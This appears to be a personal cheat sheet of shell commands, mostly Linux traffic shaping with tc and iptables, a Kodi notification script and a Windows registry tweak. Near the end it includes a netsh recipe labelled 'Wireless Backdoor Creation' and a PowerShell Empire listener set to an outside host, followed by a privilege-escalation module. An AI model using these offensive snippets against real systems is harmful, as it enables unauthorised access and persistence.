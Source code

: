             modprobe sch_htb
            /sbin/tc qdisc del dev eth0 root
            /sbin/iptables -D OUTPUT -t mangle -p tcp --sport 32400 '!' --dst 25.0.0.0/8 -j MARK --set-mark 10
            /sbin/tc qdisc add dev eth0 root handle 1: htb default 20 r2q 50
            /sbin/tc class add dev eth0 parent 1: classid 1:1 htb rate 4mbit ceil 4mbit
            /sbin/tc class add dev eth0 parent 1:1 classid 1:10 htb rate 2mbit ceil 4mbit
            /sbin/tc qdisc add dev eth0 parent 1:10 handle 100: sfq perturb 10
            /sbin/iptables -A OUTPUT -t mangle -p tcp --sport 32400 '!' --dst 25.0.0.0/8 -j MARK --set-mark 10
            /sbin/tc filter add dev eth0 parent 1: prio 3 protocol all handle 10 fw flowid 1:10
            

show TC rules
-------------------

            /sbin/tc -s -d class show dev eth0

Show iptables mangle rules
-------------------

            /sbin/iptables -t mangle -n -v -L

Show actual bandwidth being used on 32400
-------------------

            watch -n 1 /sbin/tc -s -d class show dev eth0
            
            
            ##KODI XBMC OSD
            export var1=`df -h | egrep "(\/$|sdb1|sdc1)" | awk '{print $4"|",$6"|"}'|tr -d '\n'`
            wget --header="Content-Type: application/json" --post-data="{\"jsonrpc\":\"2.0\",\"method\":\"GUI.ShowNotification\",\"params\":{\"title\":\"Disk Space\",\"message\":\"$var1\", \"image\":\"<image path or URL to image here>\"},\"id\":1}" http://localhost:9999/jsonrpc
            
            #Wireless Backdoor Creation: Credit http://pwnwiki.io/
            netsh wlan set hostednetwork mode=[allow\|disallow]
            netsh wlan set hostednetwork ssid=<ssid> key=<passphrase> keyUsage=persistent\|temporary
            netsh wlan [start|stop] hostednetwork
             

empirepowershell
-------------------

            
            set Host rmccurdy.myvnc.com
            set Name rmccurdy.myvnc.com
            set Port 443
            execute
            list
            
            
            usemodule privesc/powerup/allchecks
            
            
            
            # disable annoying GWX  "Get Windows 10" icon that keeps comming back
            reg add  "HKLM\SOFTWARE\Policies\Microsoft\Windows\Gwx" /v DisableGwx  /t REG_DWORD /d "00000001" /f
            